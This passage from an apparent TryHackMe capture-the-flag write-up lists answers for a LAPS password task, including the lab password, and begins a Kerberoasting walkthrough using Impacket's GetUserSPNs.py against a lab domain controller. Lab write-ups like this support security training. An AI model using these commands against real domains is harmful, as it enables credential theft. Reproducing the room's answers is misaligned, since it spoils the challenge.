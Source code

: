             Password: THMLAPSPassw0rd

      ![image](https://github.com/user-attachments/assets/0e708f56-0b59-441d-827a-233901dc96c5)



<br>

## _Answers_

Which group has ExtendedRightHolder and is able to read the LAPS password?

      LAPsReader
      
  ![image](https://github.com/user-attachments/assets/f80cf5de-5219-4018-8de8-edb08820e26c)


Follow the technique discussed in this task to get the LAPS password. What is the LAPs Password for Creds-Harvestin computer?


      THMLAPSPassw0rd
      
  ![image](https://github.com/user-attachments/assets/3e1e182a-86c9-40cd-bbef-179b310686bb)

Which user is able to read LAPS passwords?

      bk-admin  

  ![image](https://github.com/user-attachments/assets/ce543bd4-9f3f-43a3-8aad-ad1fa6d53344)



<br>


## Task 9: Kerberoasting Attack Walkthrough

> Objective:
1. Enumerate SPN (Service Principal Name) accounts using GetUserSPNs.py.
2. Perform Kerberoasting to get a TGS ticket for the SPN account.
3. Crack the TGS ticket to get the plaintext password.

### 1: Enumerate SPN Accounts
- Run the following command to list all SPN accounts in the domain:

      python3 /opt/impacket/examples/GetUserSPNs.py -dc-ip 10.10.234.58 THM.red/thm

    Enter password: Passw0rd! (as given in the task).

   - Output:
      <pre>
      
        ServicePrincipalName          Name     MemberOf  PasswordLastSet
        ----------------------------  -------  --------  --------------------------
        http/creds-harvestin.thm.red  svc-thm            2022-06-10 10:47:33.796826  
      
      </pre>  
